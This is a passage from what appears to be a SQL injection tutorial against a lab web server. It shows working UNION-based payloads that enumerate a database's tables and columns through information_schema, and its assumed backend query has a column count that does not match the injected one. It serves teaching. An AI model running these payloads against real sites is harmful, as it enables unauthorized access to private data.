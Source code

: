 Now that we know that, let's use this information to get information about the tables that are present in our database, "freeeze".

To do so, we'll essentially send in a query as follows:
``` SQL
# Complete query in the backend
SELECT title, author, date, post FROM blogpost WHERE id=11 UNION SELECT 1,2,3,4,GROUP_CONCAT(0x7c,table_name,0x7c) FROM information_schema.tables WHERE table_schema=database()-- -

# Our malicious query (post UNION)
SELECT 1,2,3,4,GROUP_CONCAT(0x7c,table_name,0x7c) FROM information_schema.tables WHERE table_schema=database()-- -
```
This will `SELECT` (print out) all the tables `FROM` the table called *information_schema.tables* `WHERE` those tables are in the current `database()`. This of course still need to work along with the existing query and we are assuming that we only have one row to print our output on.

On the above query I'm using a function called `GROUP_CONCAT()`. This function not only concatenates the entire output, it also places it in a single row. You can use this function wherever there is a `LIMIT` on the backend and are restricted to print out multiple rows of output.  

In the form of request it will look like below
``` SQL
http://10.10.10.31/singlepost.php?id=191+UNION+SELECT+1,2,3,4,GROUP_CONCAT(0x7c,table_name,0x7c)+FROM+information_schema.tables+WHERE+table_schema=database()--+-
```

With group concat, you can pass in hex characters or even additional ascii to provide your results more distinction and even aesthetics.

Output of the above request

![Table Found](/sqli-0x02/15_blog_union_current_db_table.png)

Apparently this particular database only has one table, although we can guess that it's not of any use let's take a look at it anyway.

### Enumerating Columns
We leverage the use of *information_schema.columns* table to get all the columns from the table *blog* we found earlier.

Request sent: 

``` SQL
http://10.10.10.31/singlepost.php?id=191+UNION+SELECT+1,2,3,group_concat(0x7c,column_name,0x7c),5+FROM+information_schema.columns+WHERE+table_name='blog'--+-
```

![Columns Found](/sqli-0x02/16_columns_blog.png)

### Getting Contents
Before printing out everything, let's find out the number of rows present in the table. On the website, it showed only 3 posts, it could be a possibility that there are hidden posts present here.

Let's take a count of `id` column as that column has to be present in a table.
